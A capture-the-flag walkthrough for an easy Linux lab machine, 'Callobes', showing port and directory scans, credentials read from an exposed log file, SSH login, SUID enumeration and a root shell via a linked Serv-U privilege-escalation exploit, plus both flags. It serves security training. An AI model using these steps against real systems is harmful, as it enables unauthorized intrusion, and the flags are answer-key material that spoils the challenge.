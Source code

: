 # Callobes

This machine is taken from [Vulnhub](https://www.vulnhub.com/entry/election-1,503/) to support the idea of open source! We intend to continue sharing our projects as open source in the future.

There are several ways to exploit the machine, and we are currently sharing one method. You are encouraged to explore and discover other paths independently.

## High Level Overview
"Callobes" is a Linux-based easy Capture The Flag (CTF) machine that presents an engaging and challenging cybersecurity scenario. Here's a brief overview:
This machine features both a web server and an SSH server. The web server has Path Traversal vulnerability hiding a crucial piece of information, specifically credentials, within a file. 
Upon successfully gaining an initial foothold, you'll discover a setuid binary named "Serv-u." This binary holds the key to escalating your privileges and potentially achieving root access on the system.
"Callobes" promises to challenge your skills in web exploitation, Linux privilege escalation, and potentially other areas of cybersecurity, making it an exciting platform for honing your penetration testing abilities.

## Enumerating the target
Run a full-range port scan to find all open ports.

```
┌──(kali㉿kali)-[~]
└─$ nmap -p- 192.168.121.129
Starting Nmap 7.93 ( https://nmap.org ) at 2023-10-05 19:10 EDT
Nmap scan report for 192.168.121.129
Host is up (0.00028s latency).
Not shown: 65533 closed tcp ports (conn-refused)
PORT   STATE SERVICE
22/tcp open  ssh
80/tcp open  http

Nmap done: 1 IP address (1 host up) scanned in 2.93 seconds

```
Nmap found two tcp ports (22, 80)

Navigating to the IP address in a browser we see the following.

![Alt text](Screenshots/image-2.png)

let’s run a dirbuster:
```
┌──(kali㉿kali)-[~]
└─$ dirb http://192.168.121.129             

-----------------
DIRB v2.22    
By The Dark Raver
-----------------

START_TIME: Thu Oct  5 19:47:57 2023
URL_BASE: http://192.168.121.129/
WORDLIST_FILES: /usr/share/dirb/wordlists/common.txt

-----------------

GENERATED WORDS: 4612                                                          

---- Scanning URL: http://192.168.121.129/ ----
+ http://192.168.121.129/index.html (CODE:200|SIZE:10918)                                                                                                                                                         
==> DIRECTORY: http://192.168.121.129/javascript/                                                                                                                                                                 
+ http://192.168.121.129/phpinfo.php (CODE:200|SIZE:95537)                                                                                                                                                        
==> DIRECTORY: http://192.168.121.129/phpmyadmin/                                                                                                                                                                 
+ http://192.168.121.129/robots.txt (CODE:200|SIZE:31)                                                                                                                                                            
+ http://192.168.121.129/server-status (CODE:403|SIZE:280)   

```
With dirbuster we have an access directory, as well as an index.html, and robots.txt file 
As seen above we see a directory named robots.txt. 

First, navigate to the robots.txt file. We have four words in the robots.txt directory, as seen below. 

![Alt text](Screenshots/image-3.png)

We just only have access to the Shimishao directory.

We can use the dirbuster tool again in the Shimishao directory
```
┌──(kali㉿kali)-[~]
└─$ dirb http://192.168.121.129/shimishao

-----------------
DIRB v2.22    
By The Dark Raver
-----------------

START_TIME: Thu Oct  5 19:58:42 2023
URL_BASE: http://192.168.121.129/shimishao/
WORDLIST_FILES: /usr/share/dirb/wordlists/common.txt

-----------------

GENERATED WORDS: 4612                                                          

---- Scanning URL: http://192.168.121.129/shimishao/ ----
==> DIRECTORY: http://192.168.121.129/shimishao/admin/                                                                                                                                                            
==> DIRECTORY: http://192.168.121.129/shimishao/data/                                                                                                                                                             
+ http://192.168.121.129/shimishao/index.php (CODE:200|SIZE:6597)                                                                                                                                                 
==> DIRECTORY: http://192.168.121.129/shimishao/js/                                                                                                                                                               
==> DIRECTORY: http://192.168.121.129/shimishao/languages/                                                                                                                                                        
==> DIRECTORY: http://192.168.121.129/shimishao/lib/                                                                                                                                                              
==> DIRECTORY: http://192.168.121.129/shimishao/media/                                                                                                                                                            
==> DIRECTORY: http://192.168.121.129/shimishao/themes/                                                                                                                                                           
                                                                                                                                                                                                                  
---- Entering directory: http://192.168.121.129/shimishao/admin/ ----
==> DIRECTORY: http://192.168.121.129/shimishao/admin/ajax/                                                                                                                                                       
==> DIRECTORY: http://192.168.121.129/shimishao/admin/components/                                                                                                                                                 
==> DIRECTORY: http://192.168.121.129/shimishao/admin/css/                                                                                                                                                        
==> DIRECTORY: http://192.168.121.129/shimishao/admin/img/                                                                                                                                                        
==> DIRECTORY: http://192.168.121.129/shimishao/admin/inc/                                                                                                                                                        
+ http://192.168.121.129/shimishao/admin/index.php (CODE:200|SIZE:8967)                                                                                                                                           
==> DIRECTORY: http://192.168.121.129/shimishao/admin/js/                                                                                                                                                         
==> DIRECTORY: http://192.168.121.129/shimishao/admin/logs/                                                                                                                                                       
==> DIRECTORY: http://192.168.121.129/shimishao/admin/plugins/                                                                                                                                                    

```
As seen above, we can see shmishao/admin/logs directory which is useful for us.
Let's try directly access this directory:

![Alt text](Screenshots/image-4.png)

We see system.log file . Install this and see what we found.
![Alt text](Screenshots/image-5.png)

As seen above we got our credentials for the ubuntu user pred8or. Now we can use these credentials to log in ssh. 

```
┌──(kali㉿kali)-[~]
└─$ ssh pred8or@192.168.121.129
pred8or@192.168.121.129's password: 
Welcome to Ubuntu 18.04.4 LTS (GNU/Linux 5.3.0-53-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/advantage

 * Strictly confined Kubernetes makes edge and IoT secure. Learn how MicroK8s
   just raised the bar for easy, resilient and secure K8s cluster deployment.

   https://ubuntu.com/engage/secure-kubernetes-at-the-edge

 * Canonical Livepatch is available for installation.
   - Reduce system reboots and improve kernel security. Activate at:
     https://ubuntu.com/livepatch

74 packages can be updated.
28 updates are security updates.

New release '20.04.6 LTS' available.
Run 'do-release-upgrade' to upgrade to it.

Your Hardware Enablement Stack (HWE) is supported until April 2023.
Last login: Tue Oct  3 03:42:01 2023 from 192.168.163.1
pred8or@shimishao:~$ 
```

From there we can see that we have found the user1.txt file. Let's read it via cat user1.txt. We've successfully found the flag!

```
pred8or@shimishao:~$ ls
Desktop  Documents  Downloads  Music  Pictures  Public  Templates  user1.txt  Videos
pred8or@shimishao:~$ cat user1.txt
ICSD{66d74978b307889bea234a4bc6570a36}

```

Privilege escelation is the process of going from lower permissions to higher permission. This is done by exploiting vulnerabilities, design flaws or misconfigurations in applications. This process is very important.

By using the following command you can enumerate all binaries having SUID permissions:

```
find / -perm -u=s -type f 2>/dev/null
```
```
pred8or@shimishao:/$ find / -perm -u=s -type f 2>/dev/null
/usr/bin/arping
/usr/bin/passwd
/usr/bin/pkexec
/usr/bin/traceroute6.iputils
/usr/bin/newgrp
/usr/bin/chsh
/usr/bin/chfn
/usr/bin/gpasswd
/usr/bin/sudo
/usr/sbin/pppd
/usr/local/Serv-U/Serv-U


```

Following the execution of the specified command, we have identified the Serv-U with suid (Set User ID) permissions. Let's google it and see what vulnerability we find.

![Alt text](Screenshots/image-6.png)

In Exploit-DB "Serv-U FTP Server < 15.1.7 - Local Privilege Escalation" we found vulnerable version.

https://www.exploit-db.com/exploits/47173

Let's exploit it:

We copy this bash script and run it in our home directory.

```
pred8or@shimishao:~$ ls
b.sh  Desktop  Documents  Downloads  Music  Pictures  Public  Templates  user1.txt  Videos
pred8or@shimishao:~$ bash b.sh
[*] Launching Serv-U ...
sh: 1: : Permission denied
[+] Success:
-rwsr-xr-x 1 root root 1113504 Oct  6 07:12 /tmp/sh
[*] Launching root shell: /tmp/sh
sh-4.4# whoami
root
sh-4.4# cd /root
sh-4.4# ls
root.txt
sh-4.4# cat root.txt
ICSD{45caa8f3afa6fc94aa3c039ceeeb7883}
sh-4.4# 
```

